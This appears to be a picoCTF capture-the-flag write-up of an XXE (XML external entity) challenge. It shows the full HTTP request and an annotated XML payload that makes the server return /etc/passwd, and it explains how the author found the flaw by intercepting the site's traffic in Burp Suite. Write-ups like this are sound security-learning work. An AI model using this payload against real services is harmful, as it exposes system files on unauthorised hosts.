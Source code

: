 # Payload used:
*Url specified in host, origin & referer has to be changed to your instance

POST /data HTTP/1.1
Host: saturn.picoctf.net:55595
Content-Length: 129
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:55595
Referer: http://saturn.picoctf.net:55595/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```
# Reasoning: 
Upon opening the page, the page looks pretty blank, no fun login/communication to the server, the details buttons located beneath each of the educational institutions looks like a dead end because all they do is display different data which in any reasonable case would be handled by a local js script.. right??
![PageInit](images/InitialPage.png)
I proceeded to throw the website into burpsuite proxy > intercept and found a glaring weakness; the text for the special info was being retrived from a server, worse yet, the data requests were being handled with XML.
![Vuln](images/Vuln.png)
## How to exploit XML:
Read this!! I literally just learnt what this was!!
[PortSwigger - XXE](https://portswigger.net/web-security/xxe) <br>
XXE (XML external entity injection) exploits how XML processes data, in cases where XML is insecure, you can feed in malicious XML code to get unintended responses.

## Using XML to access files we aren't supposed to!:
```
// Standard XML whatever

<?xml version="1.0" encoding="UTF-8"?>

// This is the part that will retrieve a file from a filepath,
// here we ask for /etc/passwd

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

// Encapsulate &xxe, specifier that gets XML to do what we want it to
// in this case inside of packaging that the server expects 
// (being <data><ID></data></ID>)

<data><ID>&xxe;</ID></data>
```
We can see the packaging expected from the server as its we intercepted it earlier (shown below what I'm looking @)
![Packaging](images/Packaging.png)

Look at my ASCII username C:
```
/======================================\\
|| ____                _      ___  _  ||
|||  _ \  __ _ ___ ___| |__  / _ \/ | ||
||| | | |/ _` / __/ __| '_ \| | | | | ||
||| |_| | (_| \__ \__ \ | | | |_| | | ||
|||____/ \__,_|___/___/_| |_|\___/|_| ||
\======================================/
```